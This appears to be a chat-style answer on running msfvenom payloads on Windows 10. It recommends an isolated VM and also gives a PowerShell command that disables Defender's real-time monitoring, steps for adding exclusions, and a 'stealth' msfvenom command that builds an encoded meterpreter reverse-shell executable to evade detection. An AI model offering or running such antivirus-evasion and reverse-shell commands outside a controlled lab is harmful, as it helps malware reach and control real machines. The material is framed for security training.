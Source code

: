 Running `msfvenom` payloads on Windows 10 will often get blocked by Windows Defender or third-party antivirus software. This is expected behavior, as these payloads are designed to simulate malicious behavior.

> ⚠️ **Important:** Disabling Windows Defender or antivirus protection makes your system vulnerable. Only do this in a **safe, isolated lab environment** (e.g., a VM) used for ethical hacking, training, or malware analysis.

---

## ✅ Safe Method: Use a Virtual Machine (Recommended)

**Create an isolated VM** (using VirtualBox, VMware, or Hyper-V):

* Install Windows 10.
* Disable network connection (or use Host-only/NAT).
* Turn off Windows Defender in the VM only.
* Use snapshots to revert if anything breaks.

---

## ⚙️ If You're Still Doing It on Bare Metal (Not Recommended)

### 1. **Temporarily Disable Windows Defender:**

**Option A: Windows Security Settings**

1. Go to `Start` → type `Windows Security`.
2. Click on **Virus & threat protection**.
3. Click **Manage settings** under **Virus & threat protection settings**.
4. Toggle **Real-time protection** to **Off**.

**Option B: PowerShell (Run as Administrator)**

```powershell
Set-MpPreference -DisableRealtimeMonitoring $true
```

To enable again:

```powershell
Set-MpPreference -DisableRealtimeMonitoring $false
```

---

### 2. **Add Folder/File Exclusion Instead (Safer)**

This avoids turning off all Defender:

1. Go to **Windows Security** → **Virus & threat protection**.
2. Scroll to **Exclusions** → Click **Add or remove exclusions**.
3. Click **+ Add an exclusion** → Choose **Folder/File**.
4. Add the folder where you save your `msfvenom` payloads.

---

### 3. **Check for Third-Party Antivirus**

If you're using something like:

* Avast
* Bitdefender
* McAfee

…you'll need to open that software and:

* Disable real-time protection.
* Whitelist the payload folder.

---

### 🧪 Pro Tip for Stealth

* Use encoding or obfuscation in `msfvenom`:

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=your_ip LPORT=your_port -f exe -e x86/shikata_ga_nai -i 5 -o payload.exe
```

Still might get flagged, but helps bypass basic detection.

---

## ⚠️ Final Reminder

Do this **only in a controlled lab**. If you're teaching, testing, or training, using tools like:

* VirtualBox
* Cuckoo Sandbox
* FLARE VM

…can provide a safer space to run and analyze malware-like files.

Would you like help setting up a proper **Windows test lab** with Defender turned off?
